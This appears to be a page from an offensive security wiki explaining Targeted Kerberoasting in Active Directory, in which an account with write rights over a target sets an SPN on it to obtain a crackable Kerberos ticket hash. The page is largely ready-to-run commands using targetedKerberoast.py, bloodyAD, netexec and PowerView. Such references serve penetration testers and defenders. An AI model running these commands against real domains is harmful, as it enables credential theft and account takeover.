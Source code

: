 # Targeted Kerberoasting

This abuse can be carried out when controlling an object that has a `GenericAll`, `GenericWrite`, `WriteProperty` or `Validated-SPN` over the target. A member of the [Account Operator](../domain-settings/builtin-groups/) group usually has those permissions.

The attacker can add an SPN (`ServicePrincipalName`) to that account. Once the account has an SPN, it becomes vulnerable to [Kerberoasting](broken-reference). This technique is called Targeted Kerberoasting.

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, this can be done with [targetedKerberoast.py](https://github.com/ShutdownRepo/targetedKerberoast) (Python)

```bash
targetedKerberoast.py -v -d "$DC_HOST" -u "$USER" -p "$PASSWORD"
```

***

**Alternative 1:** Using [bloodyAD](https://github.com/CravateRouge/bloodyAD) and [netexec](https://github.com/Pennyw0rth/NetExec)

```bash
# Add a SPN to attribute to the targeted account
bloodyAD -d "$DOMAIN" --host "$DC_HOST" -u "$USER" -p "$PASSWORD" set object "$TARGET" servicePrincipalName -v 'http/anything'

nxc ldap "$DC_HOST" -d "$DOMAIN" -u "$USER" -H "$NThash" --kerberoasting kerberoastables.txt
```
{% endtab %}

{% tab title="Windows" %}
From Windows machines, this can be achieved with [Set-DomainObject](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainObject/) and [Get-DomainSPNTicket](https://powersploit.readthedocs.io/en/latest/Recon/Get-DomainSPNTicket/) ([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module).

```bash
# Make sur that the target account has no SPN
Get-DomainUser 'victimuser' | Select serviceprincipalname

# Set the SPN
Set-DomainObject -Identity 'victimuser' -Set @{serviceprincipalname='nonexistent/BLAHBLAH'}

# Obtain a kerberoast hash
$User = Get-DomainUser 'victimuser'
$User | Get-DomainSPNTicket | fl

# Clear the SPNs of the target account
$User | Select serviceprincipalname
Set-DomainObject -Identity victimuser -Clear serviceprincipalname
```
{% endtab %}
{% endtabs %}

Once the Kerberoast hash is obtained, it can possibly be [cracked](../credentials/cracking.md) to recover the account's password if the password used is weak enough.
